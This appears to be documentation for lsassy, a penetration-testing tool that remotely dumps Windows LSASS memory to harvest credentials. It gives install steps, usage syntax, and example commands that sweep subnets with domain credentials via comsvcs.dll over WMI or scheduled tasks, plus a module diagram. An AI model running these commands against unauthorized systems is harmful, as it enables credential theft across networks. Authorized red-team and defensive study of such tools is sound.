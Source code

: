 ```
python3 setup.py install
```

## Basic Usage

**lsassy** works out of the box on multiple targets (IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of targets)

```bash
lsassy [-d domain] -u user -p password targets
lsassy [-d domain] -u user -H [LM:]NT targets
```

By default, lsassy will try to dump lsass remotely using `comsvcs.dll` method, either via WMI or via a remote scheduled task.

### Kerberos

**lsassy** can authenticate with Kerberos. It requires a valid TGT in `KRB5CCNAME` environment variable. See [advanced usage](Lsassy-Advanced-Usage#kerberos) for more details.

```bash
lsassy -k targets
```


### Examples

```bash
 lsassy -d adsec.local -u pixis -p p4ssw0rd 192.168.1.0/24
 lsassy -d adsec.local -u pixis -p p4ssw0rd 192.168.1.1-10
 lsassy -d adsec.local -u pixis -p p4ssw0rd hosts.txt
 lsassy -d adsec.local -u pixis -p p4ssw0rd 192.168.1.1-192.168.1.10
```

## Advanced Usage

Different lsass dumping methods are implemented in **lsassy**, and some option are provided to give control to the user on how the tool will proceed.

### Internal working

**lsassy** is divided in modules

```
                   +-----------+
                   |   Writer  |
                   +-----+-----+
                         |
                         |
 +----------+      +-----+-----+    +---------+
 |  Parser  |------|   Core    |----| Session |
 +----------+      +-----+-----+    +---------+
                         |
                         |
                   +-----------+
                   |    Dump   |-+
                   |  Methods  | |-+    +----------+
                   +-----+-----+ | |----|   File   |
                     +-----------+ |    +----------+
                      +------------+
                         |
                         |
                   +-----------+
                   |    Exec   |-+
                   |  Methods  | |-+
                   +-----+-----+ | |
```